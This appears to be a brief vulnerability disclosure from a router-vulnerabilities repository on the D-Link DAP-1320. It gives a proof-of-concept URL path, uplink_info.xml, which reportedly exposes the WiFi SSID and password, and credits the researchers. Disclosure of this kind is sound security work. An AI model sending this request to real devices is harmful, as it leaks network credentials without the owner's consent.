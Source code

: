 #### PoC
http://targetip/uplink_info.xml
you can get the WIFI SSID and password
！[poc](https://github.com/dahua966/Routers-vuls/blob/master/DAP-1320/info_leak.png)

#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：

Wei Xie

Zhen-hua Wang

En-Ze Wang